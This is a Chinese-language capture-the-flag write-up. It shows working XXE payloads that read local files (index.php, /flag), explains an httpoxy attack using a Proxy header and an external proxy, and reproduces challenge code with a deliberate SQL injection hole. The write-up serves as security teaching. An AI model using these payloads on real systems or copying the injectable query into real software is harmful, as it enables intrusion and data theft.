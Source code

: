 # File Access
```
file://index.php
```

# XXE

讀取index.php檔案，發現 flag 不在裡面=3=
```
<!DOCTYPE root [
  <!ENTITY name SYSTEM
  "php://filter/read=convert.base64-encode/resource=/var/www/html/index.php"
  >
]>
<root>
    <result>&name;</result>
</root>
```
   
然後重讀題目發現....我眼殘 flag 在 /flag

```
<!DOCTYPE root [
  <!ENTITY name SYSTEM "file:///flag">
]>
<root>&name;</root>
```

# Bonus-httpoxy.py
這題一定要有 Proxy Server 而且要給外部訪問，可以利用手機網路，至少有實體IP   
不然AWS 或是其他 VPS 花下去，這題我把Linode 拿來用了...   

遇到一件事就是 Squid 架不起來，Google 了一下，放棄除錯改用 tinyproxy   

這題模擬 cgi 的漏洞，程式到 `http://127.0.0.1/waf` 去判斷參數有沒有正確，這邊就有點問題了   
其中 cgi 會把 header 的值變大寫並在前加入 `HTTP_` 的prefix，並加入環境變數   
而 `HTTP_PROXY` 這環境變數存在則會通過該變數的代理伺服器   
所以在發送請求時加入 proxy 這個 header 就是這題目的主要方法   

## cgi-bin
```
#!/usr/bin/env python
#
# By Orange Tsai :P
#

import os
import cgi
import sqlite3
import requests
from urllib import quote
from base64 import b64encode

print "Content-Type: text/html\n"

query  = os.environ["QUERY_STRING"]
params = dict(cgi.parse_qsl(query))

WAF = 'http://127.0.0.1/waf/'

def check_param(s):
    data = {
        'data': s
    }
    r = requests.post(WAF, data)
    content = r.content.strip()
    if r.content == 'ok':
        return True
    else:
        return False



news_id = params.get('id', '1')
if not check_param(news_id):
	news_id = '1'

conn = sqlite3.connect('/var/www/db/flag.db')
cur = conn.cursor()
cur.execute("SELECT * FROM news WHERE id='%s'" % news_id)
data = cur.fetchone()
if data:
	print data[1]
else:
	print 'Hacker?'
```
## waf
```
<?php
	// Simple Web Application Firewall
	// 
	$data = $_POST['data'];
	$data = (String)$data;
	if ($data == '1' || $data == '2' || $data == '3') {
		echo 'ok';
	}
```


**然後就是SQL injection的開始**   

其實一開始用還用 id 遞增的方式下去跑 XDD   

